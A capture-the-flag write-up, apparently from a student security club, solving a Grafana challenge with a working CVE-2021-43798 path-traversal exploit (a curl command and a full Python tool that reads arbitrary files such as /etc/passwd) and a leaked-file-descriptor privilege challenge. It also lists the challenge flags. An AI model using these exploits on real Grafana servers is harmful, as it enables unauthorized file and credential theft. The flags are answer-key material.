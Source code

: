 # Operation-Shadow-Trace
**FLAGS:**

Grafana blog:
```
PClub{Easy LFI}
PClub{4lw4ys_cl05e_y0ur_fil3s}
PClub{y0u_ar3_in_7he_sudoers_th1s_1nc1d3nt_will_n0t_be_rep0r7ed}
```

Kalpit Rama blog:
```
flag1:PClub{idk_how_this_got_typed}
```
## Grafana Blog
### Initial challenge:
**FLAG:** ```PClub{Easy LFI}```  
 
When reading the grafana blog, opened the link to the grafana login dashboard. We didn't have the login id and password.  
 
When searched for grafana and its vulnerability found about the ```Grafana 8.3.0 - Directory Traversal and Arbitrary File Read, CVE:2021-43798```.  
There existed vulnerability that local files can be directly transversed.  

The detail of the exploit is found in this link: 
https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p  

Used this on terminal and found the flag in return, and the next IP and port of next two challenges.
```
curl http://13.126.50.182:3000/public/plugins/tempo/%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2Ftmp%2Fflag 
```
Returned data: 
```
PClub{Easy LFI}, now onto the next one! Next challenge - 13.235.21.137:4657 and 13.235.21.137:4729
```

Also I saw a direct transversal code when going through google, link:  
https://www.exploit-db.com/exploits/50581  
To cross check all the other plugins, I ran it with necessary changes and got the same output on other plugins too.
```
#!/usr/bin/env python3
import requests
import random
import urllib3
urllib3.disable_warnings()
PLUGIN_LIST = [ "alertlist", "annolist", "barchart", "bargauge", "candlestick", "cloudwatch", "dashlist", "elasticsearch", "gauge", "geomap", "gettingstarted", "grafana-azure-monitor-datasource", "graph", "heatmap", "histogram", "influxdb", "jaeger", "logs", "loki", "mssql", "mysql", "news", "nodeGraph", "opentsdb", "piechart", "pluginlist", "postgres", "prometheus", "stackdriver", "stat", "state-timeline", "status-history", "table", "table-old", "tempo", "testdata", "text", "timeseries", "welcome", "zipkin" ]
TARGET = "http://13.126.50.182:3000"
SESSION = requests.Session()
HEADERS = { 'User-Agent': 'Mozilla/5.0' }
# Encoded traversal (12 levels deep)
TRAVERSAL = "%2E%2E%2F" * 12 # = ../../../../... (12 times)
def attempt_read(filepath):
   plugin = random.choice(PLUGIN_LIST)
   filepath_encoded =filepath.replace("/", "%2F")
   url = f"{TARGET}/public/plugins/{plugin}/{TRAVERSAL}{filepath_encoded}"
    print(f"🔎 Trying: {url}")
    try:
        res = SESSION.get(url, headers=HEADERS, verify=False, timeout=5)
        if res.status_code == 200 and "PClub{" in res.text:
            print(f"\n✅ FLAG FOUND at: {url}")
            print(res.text)
        elif res.status_code == 200:
            print(f"[+] File accessible — plugin '{plugin}' responded:")
            print(res.text[:300] + ("..." if len(res.text) > 300 else ""))
        elif "Found" in res.text and "/login" in res.text:
            print("🚫 Redirected to login. File may exist, but access is blocked.")
        else:
            print("[-] File not found or not readable.")
    except requests.exceptions.RequestException as e:         print(f"[!] Error accessing {url}: {e}")
def main():
    print("🎯 Grafana CVE-2021-43798 Exploit Tool — Operation Shadow Trace")
    print(f"🌐 Targeting: {TARGET}")
    print("📂 Enter paths like /tmp/flag.txt, /etc/passwd, /proc/self/environ\n")
    try:
        while True:
            filepath = input("📥 File to read: ").strip()
            if not filepath.startswith("/"):
                filepath = "/" + filepath
            attempt_read(filepath)
    except KeyboardInterrupt:
        print("\n👋 Exiting...")
if __name__ == "__main__":
    main()

... 
🎯 Grafana CVE-2021-43798 Exploit Tool — Operation Shadow Trace 🌐
Targeting: http://13.126.50.182:3000 📂
Enter paths like /tmp/flag.txt, /etc/passwd, /proc/self/environ
📥 File to read: /tmp/flag
🔎Trying: http://13.126.50.182:3000/public/plugins/opentsdb/%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2Ftmp%2Fflag
✅ FLAG FOUND at: http://13.126.50.182:3000/public/plugins/opentsdb/%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2Ftmp%2Fflag PClub{Easy LFI}, now onto the next one! Next challenge - 13.235.21.137:4657 and 13.235.21.137:4729
🔎 Trying: http://13.126.50.182:3000/public/plugins/piechart/%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2Ftmp%2Fflag
✅ FLAG FOUND at: http://13.126.50.182:3000/public/plugins/piechart/%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2Ftmp%2Fflag PClub{Easy LFI}, now onto the next one! Next challenge - 13.235.21.137:4657 and 13.235.21.137:4729
📥 File to read: /tmp/flag
🔎 Trying: http://13.126.50.182:3000/public/plugins/mysql/%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2Ftmp%2Fflag
✅ FLAG FOUND at: http://13.126.50.182:3000/public/plugins/mysql/%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2Ftmp%2Fflag PClub{Easy LFI}, now onto the next one! Next challenge - 13.235.21.137:4657 and 13.235.21.137:4729
```

### Challenge 2

*challenge* - 13.235.21.137:4657  

**FLAG**:```PClub{4lw4ys_cl05e_y0ur_fil3s}``` 

Connected to terminal using:
```nc 13.235.21.137 4657```

ls Gives: 
```$ ls file_chal file_chal.c ``` 

Used cat to see the c script
```
cat file_chal.c

#include <fcntl.h>
#include <unistd.h>
int main () {
    int fd = open ("/root/flag", 0);
// Dropping root previliges
// definitely not forgetting anything
    setuid (getuid ());
    char* args[] = { "sh", 0 };
    execvp ("/bin/sh", args);
    return 0; }
``` 

Then to see the file descriptors used:
``` 
ls -l /proc/$$/fd

total 0 lrwx------ 1 ctf ctf 64 May 23 09:35 0 -> /dev/pts/24
lrwx------ 1 ctf ctf 64 May 23 09:35 1 -> /dev/pts/24
lrwx------ 1 ctf ctf 64 May 23 09:35 2 -> /dev/pts/24
lr-x------ 1 ctf ctf 64 May 23 09:35 3 -> /root/flag

$ $ cat /proc/$$/fd/3 cat: /proc/2285/fd/3: Permission denied $ head /proc/$$/fd/3 strings /proc/$$/fd/3 dd if=/proc/$$/fd/3 bs=1 count=100 head: cannot open '/proc/2285/fd/3' for reading: Permission denied $ sh: 11: strings: not found $ dd: failed to open '/proc/2285/fd/3': Permission denied $ read line <&3 echo "$line" $ PClub{4lw4ys_cl05e_y0ur_fil3s} ```
